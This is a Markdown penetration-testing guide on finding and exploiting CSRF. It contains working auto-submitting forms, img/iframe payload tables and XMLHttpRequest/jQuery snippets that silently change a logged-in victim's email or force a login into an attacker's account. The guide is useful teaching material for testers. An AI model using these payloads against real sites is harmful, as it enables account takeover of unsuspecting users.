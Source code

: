 # Finding and exploiting CSRF vulnerabilities

## Finding CSRF vulnerabilities

1. **Identify state-changing actions** within the web application that alter user data or perform important operations, such as modifying personal details, processing purchases, transferring funds, or executing any API requests that update server-side resources. These actions are potential targets for CSRF attacks.
1. **Check for unprotected forms** within the application that submit data without a CSRF token or the `SameSite` cookie attribute, as this could expose them to CSRF attacks. CSRF tokens are server-generated unique values included in form submissions to prevent unauthorized request execution. To detect these weaknesses, use a web proxy tool like Burp Suite or OWASP ZAP to **intercept and analyze HTTP requests** examining request headers, cookies, and parameters.
1. **Test to confirm the CSRF vulnerability** by crafting a malicious request within an HTML page, utilizing a `form` or `image` tag to send an unauthorized request to the application:

    ```javascript
    <form action="https://vulnerable.tbl/email/update" method="POST">
        <input type="hidden" name="email" value="attacker@attacker.tbl">
        <input type="submit" value="Submit">
    </form>
    ```

    Visiting the crafted malicious page while authenticated in the target application will trigger the CSRF attack.

1. Additionally, as part of in-depth research, leverage a vulnerability scanner for automatic CSRF detection, inspect source code if accessible, perform SAST to uncover security risks, and evaluate the effectiveness of CSRF protections by attempting bypass techniques.

## Exploiting CSRF via state-changing requests (usually POST)

* CSRF attacks using the POST method are among the most common forms of CSRF. These attacks occur when a web application fails to implement security mechanisms (i.e, implementing CSRF tokens or using the `SameSite` attribute on cookies) to protect against unauthorized requests.
* An attacker can exploit this by crafting malicious HTML content that automatically triggers a POST request as soon as the user's browser renders the page.
  * Since browsers allow automatic form submission, attackers can initiate POST requests without user interaction, as long as the victim is logged into the targeted website.
* Unlike GET-based CSRF, POST-based CSRF usually allows attackers to target endpoints that require more structured input, which are typically used for state-changing operations.
* As example, consider a scenario where a web application has a vulnerable `/email/update` endpoint that permits users to update their email address via a POST request, requiring only the `email` parameter. An attacker could craft the following HTML page to exploit this weakness:

    ```html
    <html>
        <body>
            <form action="https://vulnerable.tbl/email/update" method="POST">
                <input type="hidden" name="email" value="attacker@attacker.tbl" />
            </form>
            <script>
                document.forms[0].submit();
            </script>
        </body>
    </html>
    ```

## Exploiting CSRF via GET requests

* CSRF vulnerabilities may also be exploited via the GET HTTP method if endpoints permit state-changing operations through GET requests without proper protections.
* GET requests are typically intended for retrieving data, but if a web application uses GET for actions that modify state (e.g., changing user information or making updates), it also creates a significant security risk.
* In the following example, when the user clicks on the following link, its email will be changed to `attacker@attacker.tbl`, making the attacker gain control over the account:

    ```http
    https://vulnerable.tbl/email/update?email=attacker@attacker.tbl
    ```

  * Clicking the link while authenticated to `vulnerable.tbl` causes the browser to automatically send a GET request to the exposed endpoint.
* CSRF can also be exploited via the GET method by embedding the malicious link in an HTML element like an `<img>` tag. When the victim accesses a malicious website, the browser automatically processes the HTML and issues the GET request to the vulnerable endpoint without requiring user interaction:

    ```html
    <img src="https://vulnerable.tbl/email/update?email=attacker@attacker.tbl">
    ```

  * The request sent, containing the victim's authenticated session cookies, would trigger the state-changing operation, altering the user's email address to `attacker@attacker.tbl` without the victim's awareness or approval.
* As an example, after updating the victim’s email, the attacker could reset the password through the new email, effectively gaining complete control of the account.

## Exploiting CSRF via session fixation

* `Session fixation` is an attack where an attacker forces a user to use a predetermined session, effectively hijacking the user's session.
* In certain scenarios, a CSRF attack can be used to log a user into an account controlled by the attacker, overwriting any existing session the user may have had. This results in the user unknowingly operating under the attacker's session.
* Unlike traditional CSRF attacks that focus on unauthorized state changes, this variant manipulates user authentication, potentially leading to account hijacking, data exposure, or session-based tracking.
* The attack follows these steps:
  1. The attacker pre-creates an account (e.g., `attacker@attacker.tbl`) on the targeted vulnerable website.
  1. The attacker constructs a malicious webpage designed to force victims into logging into this account:

      ```html
      <form action="https://vulnerable.tbl/login" method="POST">
          <input type="hidden" name="email" value="attacker@attacker.tbl" />
          <input type="hidden" name="password" value="password123" />
      </form>
      <script>
          document.forms[0].submit();
      </script>
      ```

  1. When a user visits this page, their browser automatically submits the form, initiating a login request. If the server responds with:

      ```http
      Set-Cookie: session=attacker_account_session_id; Secure; HttpOnly; Path=/
      ```

      The browser overwrites the victim's existing session cookie with the attacker account's session.

  1. Since the victim remains unaware of this manipulation, they may continue using the trusted application, believing they are still logged into their own account. However, all actions they perform are tied to the attacker's session.
* This technique is particularly dangerous in applications where users store personal information, payment details, or sensitive messages, as any data entered while under the attacker's session will be accessible to them.
* Attackers can also leverage this approach to track user interactions and harvest sensitive data, initiate fraudulent transactions using stored payment details, exploit account linking mechanisms to permanently associate the victim's actions with the attacker's controlled session.
  > :older_man: However, there is a shift in behavior. Historically, the absence of the `SameSite` attribute on cookies was treated as `SameSite=None` by most browsers. Recognizing the security risks of this approach, modern browsers now default to `SameSite=Lax`, which would prevent this attack. Although this change enhances security, depending on browser defaults is not considered a reliable security practice.

## Common CSRF payloads

### HTML4 and HTML5 not requiring user interaction

|HTML tags|
|:--:|
|```<iframe src="https://vulnerable.tbl/email/update" />```,<br/> ```<script src="https://vulnerable.tbl/email/update" />```,<br/> ```<input type="image" src="https://vulnerable.tbl/email/update" alt="" />```,<br/> ```<embed src="https://vulnerable.tbl/email/update" />```,<br/> ```<audio src="https://vulnerable.tbl/email/update" />```,<br/> ```<video src="https://vulnerable.tbl/email/update" />```,<br/> ```<source src="https://vulnerable.tbl/email/update" />```,<br/> ```<video poster="https://vulnerable.tbl/email/update" />```,<br/> ```<link rel="stylesheet" href="https://vulnerable.tbl/email/update" />```,<br/> ```<object data="https://vulnerable.tbl/email/update" />```,<br/> ```<body background="https://vulnerable.tbl/email/update" />```,<br/> ```<div style="background:url("https://vulnerable.tbl/email/update")" />```,<br/> ```<style>body { background:url("https://vulnerable.tbl/email/update") } </style> />```|

### HTML and JavaScript not requiring user interaction

```html
<form action="https://vulnerable.tbl/email/update" method="POST" id="CSRF" style="display: none;">
  <input name="email" value="attacker@attacker.tbl"/>
</form>
<script>document.getElementById("CSRF").submit()</script>
```

### JavaScript not requiring user interaction

  ```javascript
  <script>
  const url = "https://vulnerable.tbl/email/update";
  const params = "email=attacker@attacker.tbl";
  const CSRF = new XMLHttpRequest();
  CSRF.open("POST", url, false);
  CSRF.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
  CSRF.send(params);
  </script>
  ```

  ```javascript
  $.ajax({
  type: "POST",
  url: "https://vulnerable.tbl/email/update",
  data: "email=attacker@attacker.tbl",
  });
  ```
